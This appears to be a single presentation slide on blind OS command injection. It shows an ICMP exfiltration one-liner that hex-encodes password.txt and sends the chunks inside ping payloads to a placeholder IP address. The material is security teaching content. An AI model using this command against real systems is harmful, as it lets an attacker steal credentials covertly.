

# Blind OS Command Injection
Other protocol

ICMP example：
cat password.txt | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done